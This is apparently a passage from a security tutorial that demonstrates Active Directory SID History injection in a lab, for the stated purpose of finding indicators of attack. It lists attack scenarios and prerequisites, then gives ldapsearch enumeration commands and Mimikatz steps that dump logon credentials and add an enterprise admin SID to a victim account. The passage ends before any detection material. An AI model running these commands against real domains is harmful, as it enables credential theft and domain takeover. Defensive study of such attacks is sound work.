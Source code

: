 ### Attack Scenarios

1. **Golden Ticket with SID History**: Adding domain admin SIDs to a regular user
2. **Cross-Domain Persistence**: Maintaining access after domain migration
3. **Privilege Escalation**: Adding enterprise admin SIDs to a regular account
4. **Resource Access**: Gaining access to resources in other domains

## ATTACK Simulation (SID History Injection Demonstration)

In this practical demonstration, we'll simulate a **SID History injection** attack in our test environment and identify **key Indicators of Attack (IoAs)** that would alert defenders to such malicious activity.

**Lab Environment Details:**

- Source Domain: **corp.local**
- Target Domain: **acme.local**
- Attacker Account: **corp.local/attacker**
- Target Account: **acme.local/victim**
- Domain Controller: **acme.local/DC01**

### Prerequisites for SID History Abuse

To perform SID History injection, the attacker needs:

1. **Domain Admin privileges** in the target domain
2. **SID History modification rights** (DS-Replication-Get-Changes-All)
3. **Access to the target account** or ability to create new accounts

### Attack Methodology

#### Step 1: Enumeration and Reconnaissance

First, let's enumerate the target domain to understand the environment:

```shell
# Enumerate domain users and their SIDs
ldapsearch -H ldap://acme.local -u "acme.local\attacker" -p "Password123!" -b "dc=acme,dc=local" "(objectClass=user)" sAMAccountName objectSid

# Check current SID History for target account
ldapsearch -H ldap://acme.local -u "acme.local\attacker" -p "Password123!" -b "dc=acme,dc=local" "(sAMAccountName=victim)" sIDHistory
```

#### Step 2: SID History Injection

Using **Mimikatz** to inject SID History:

```shell
# Start Mimikatz with elevated privileges
mimikatz.exe

# Authenticate to the target domain
privilege::debug
sekurlsa::logonpasswords

# Inject SID History (adding Domain Admin SID)
sid::add /sam:victim /new:acme.local-519
```

